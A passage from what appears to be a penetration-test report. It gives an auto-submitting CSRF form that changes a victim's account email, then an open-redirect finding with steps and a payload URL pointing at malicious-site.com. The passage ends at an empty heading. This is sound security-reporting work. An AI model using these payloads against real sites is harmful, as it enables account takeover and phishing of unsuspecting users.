 #### Code Examples

**HTML:**
```html

<html>
  <body onload="document.getElementById('csrf-form').submit();">
    <form id="csrf-form" action="http://127.0.0.1/account/settings" method="POST">
      <input type="hidden" name="update_email" value="malicious_value" />
    </form>
  </body>
</html>
```

#### Command Examples

#### Required Tools

- Custom HTML page
- Burp Suite
- OWASP ZAP

#### Potential Impact

- Unauthorized state-changing operations performed on behalf of the victim
- Account settings modifications
- Unauthorized financial transactions
- Data manipulation
- Privilege escalation
- Account takeover

---

### Open Redirect (Medium)

**Affected Component:** http://127.0.0.1/redirect (url parameter)

**Description:** An attacker manipulates a redirect parameter in a vulnerable application, causing users to be redirected to a malicious site that may appear legitimate. This can be used in phishing attacks to steal credentials or distribute malware.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://127.0.0.1/redirect
2. Craft a malicious URL using the vulnerable parameter: url
3. Set the redirect destination to an attacker-controlled site
4. Send the crafted URL to potential victims

#### Example Payloads

```
https://legitimate-site.com/redirect?url=https://malicious-site.com
```

#### Code Examples
